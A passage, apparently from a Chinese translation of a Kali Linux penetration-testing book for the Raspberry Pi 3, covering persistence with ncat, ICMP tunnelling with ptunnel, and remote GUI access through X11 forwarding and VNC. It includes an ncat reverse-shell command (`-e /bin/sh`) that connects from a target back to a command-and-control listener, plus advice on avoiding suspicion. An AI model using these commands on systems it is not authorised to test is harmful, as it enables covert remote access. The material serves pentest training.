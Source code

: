 **ncat**默认安装在大多数版本的 Kali Linux 上，包括 Raspberry Pi 3 的基本映像。ncat（[https://nmap.org/ncat/guide/index.html](https://nmap.org/ncat/guide/index.html) 为我们提供了一个极好的工具来维护对我们自己的机器的访问，事实上，在我们的测试过程中，可以在目标主机上使用它来维护访问。双方都需要安装 ncat。Linux 本机支持它，而 windows 和 Mac OSX 则需要从源代码或在 Web 上轻松搜索的开放项目安装它们的版本。一旦可用，它可以在两个方向上使用，但是考虑到我们在访问目标网络之后，我们将按如下方式使用它。

在我们的 C&C 节点上，我们可以使用命令`ncat -l <listening port>`轻松侦听 Raspberry Pi 的出站会话，其中`-l`后面的数字定义了我们的侦听端口。

在 Raspberry Pi 3（或目标）节点上，我们可以通过在以下命令中引用该会话来简单地侦听该会话：`ncat <ip address of target> <listening port> -e /bin/sh`。`-e`后面的选项定义了我们正在使用的 shell 或希望运行的命令，在这种情况下，它几乎总是我们的默认 shell。

## 隧道等技术

**ptunnel**是一个非常好的工具，可以通过隧道穿越限制性极强的环境，因为它们严重限制了大多数其他工具所依赖的 TCP 和 UDP 流。在那些更健壮的传输失败的地方，ICMP 是一个小引擎，我们当然可以通过 ICMP PING（ECHO）和 ECHO-REPLY 包利用隧道，如果其他所有的都失败了。《卡利 Linux——通过渗透测试确保安全》、*Packt Publishing】*（由 Tedi Heriyanto、Lee Allen 和 Shakeel Ali 撰写）一书为这些其他隧道协议及其使用提供了极好的入门知识。同样，对于本书来说，工具和用例的数量太多了，但好消息是我们有很多选择！

# 使用 GUI

虽然渗透测试可以通过独家使用 CLI 来完成，但 Pi 3 的新增功能允许我们远程使用 Kali 的 X11 Windows 功能。我们建议将此限制为培训和初始系统配置，以限制进出 Pi 的流量，避免引发怀疑。

考虑到这一点，我们将在这里介绍两种基本方法：

*   我们的主要方法（也是本书中最有用的方法）是通过 SSH 将 X-Windows 会话传输到我们的笔记本电脑/台式机，从中我们可以指挥我们的攻击。通过使用这种方法，我们能够使用 SSH 保护会话，并且使用更少的带宽，因为 X-windows 会话只在需要的时间内传输感兴趣的应用程序。
*   我们的第二种方法是通过 RDP 或 VNC 移植整个桌面。这种方法虽然更受 Linux 学习者的欢迎，但会消耗更多带宽，并且依赖于实现者（用户）来确保安全性。

我们将通过快速而肮脏的方式启动并运行这两种类型的访问。对于主 X-windows 访问，我们将使用 Xming（对于 windows）和 SSH-X（对于 Mac 或 Linux）。为了获得完整的 GUI 体验，我们将使用 VNC，因为我们遇到了许多细微差别和困难，使得使用 Xrdp 之类的包的 RDP 成为一个更加个性化的任务。

## 通过 SSH 传输 X

如果我们在 Windows 中工作，建议从[下载**Putty**作为 SSH 客户端 http://www.chiark.greenend.org.uk/~sgtatham/putty/download.html](http://www.chiark.greenend.org.uk/~sgtatham/putty/download.html)。免费的 X 窗口服务器名为**XMing**（[https://sourceforge.net/projects/xming/](https://sourceforge.net/projects/xming/) 与 Putty 集成得相当好，它们将共同支持远程 X Windows 会话。在安装了这两个应用程序之后，我们将开始 Xming 和 Putty，并像往常一样在 Putty 中配置 SSH 会话。

SSH 是一个基本工具，为我们提供对远程系统（如 Raspberry Pi 3）的受保护终端访问。我们将在接下来的几乎所有任务中使用它。通常，这些通信将通过 TCP 端口`22`进行，因此我们需要确保在端口`22`上进行 SSH 会话，除非我们更改了默认设置。无论哪种方式，双方（服务器和客户端）都需要匹配。这是我们的系统，可能需要为我们的服务器更改端口。

接下来，我们将导航到**连接****SSH****X11**并选中**启用 X11 转发**旁边的复选框。让我们将**远程 X11 身份验证协议**保留为其默认值（**MIT-Magic-Cookie-1**：
